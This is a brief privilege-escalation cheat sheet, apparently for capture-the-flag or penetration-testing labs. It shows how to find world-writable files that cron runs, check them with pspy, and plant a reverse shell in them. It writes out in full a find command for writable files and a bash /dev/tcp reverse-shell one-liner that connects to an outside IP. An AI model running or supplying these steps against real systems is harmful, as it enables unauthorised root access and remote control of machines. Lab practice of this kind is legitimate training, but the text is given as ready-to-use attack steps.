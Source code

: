 Find the Directories or Files running Cronjob
```find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null```
Run pspy to check whether the directory is running cronjob or not 

Check the contents of the file running cronjob and then modify it to include a rev shell
```bash -i >& /dev/tcp/10.10.14.3/443 0>&1```
